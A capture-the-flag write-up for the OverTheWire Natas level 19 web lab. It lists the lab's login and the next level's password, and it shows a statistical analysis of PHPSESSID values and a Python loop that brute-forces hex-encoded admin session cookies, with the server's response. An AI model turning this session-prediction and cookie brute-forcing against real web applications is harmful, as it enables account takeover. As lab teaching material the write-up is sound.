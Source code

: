 # Natas19

*	user: `natas19`
*	pass: `4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs`
*	url: `http://natas19.natas.labs.overthewire.org`
*	flag: `eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF`

## Procedure

1.	Since values of PHPSESSID are not sequential, we have to try if it's
	possible to evaluate the randomness in order to predict values. To do that
	we need a significant number of generated PHPSESSID and the try to execute
	some statistics.

2.	Statistics are executed by Python script
	[natas19_stats.py](./scripts/natas19_stats.py). Run it

		$ python natas19_stats.py
		Just a simple analysis: 
		  PHPSESSIDs with 18 chars: 82.00%
		  PHPSESSIDs with 14 chars: 2.00%
		  PHPSESSIDs with 16 chars: 14.00%
		
		Chose length: 18
		
		With 300 captures
		  char at position  0 of PHPSESSID is '3' with accurancy 100.00%
		  char at position  1 of PHPSESSID is '1' with accurancy 20.00%
		  char at position  2 of PHPSESSID is '3' with accurancy 100.00%
		  char at position  3 of PHPSESSID is '2' with accurancy 14.00%
		  char at position  4 of PHPSESSID is '3' with accurancy 100.00%
		  char at position  5 of PHPSESSID is '3' with accurancy 13.00%
		  char at position  6 of PHPSESSID is '2' with accurancy 100.00%
		  char at position  7 of PHPSESSID is 'd' with accurancy 100.00%
		  char at position  8 of PHPSESSID is '6' with accurancy 100.00%
		  char at position  9 of PHPSESSID is '1' with accurancy 100.00%
		  char at position 10 of PHPSESSID is '6' with accurancy 100.00%
		  char at position 11 of PHPSESSID is '4' with accurancy 100.00%
		  char at position 12 of PHPSESSID is '6' with accurancy 100.00%
		  char at position 13 of PHPSESSID is 'd' with accurancy 100.00%
		  char at position 14 of PHPSESSID is '6' with accurancy 100.00%
		  char at position 15 of PHPSESSID is '9' with accurancy 100.00%
		  char at position 16 of PHPSESSID is '6' with accurancy 100.00%
		  char at position 17 of PHPSESSID is 'e' with accurancy 100.00%

	The output inform us that 82% of the captures is 18 chars length, so it's
	a good candidate for our flag. Then, by considering only IDs with 18 chars,
	we have an evaluation of the characters. According to the statistics, our
	PHPSESSID should be like this:

		3 [?] 3 [?] 3 [?] 2d61646d696e

3.	Now we can try with a brute-force because the range of possible solutions
	is reasonable (16x16x16).

		while x <= 0xf:
			while y <= 0xf:
				while z <= 0xf:
					phpsessid = (('3%s3%s3%s2d61646d696e') %
								 (hex(x)[2:], hex(y)[2:], hex(z)[2:]))
					cookies['PHPSESSID'] = phpsessid
					print 'Trying with: %s' % phpsessid
					r = requests.get(target, auth=auth, params=params, cookies=cookies)
					if "You are logged in as a regular user." not in r.text:
						print r.text
						sys.exit(0)
					z += 1
				y += 1
				z = 0x0
			x += 1
			y = 0x0
			z = 0x0

	Also in this case, Python is our best friend...

		$ python natas19.py
		Trying with: 3030302d61646d696e
		...
		Trying with: 33373f2d61646d696e
		Trying with: 3338302d61646d696e
		Trying with: 3338312d61646d696e
		<html>
		<head>
		<!-- This stuff in the header has nothing to do with the level -->
		<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
		<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
		<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
		<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
		<script>var wechallinfo = { "level": "natas19", "pass": "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs" };</script></head>
		<body>
		<h1>natas19</h1>
		<div id="content">
		<p>
		<b>
		This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
		</b>
		</p>
		You are an admin. The credentials for the next level are:<br><pre>Username: natas20
		Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>
		</body>
		</html>
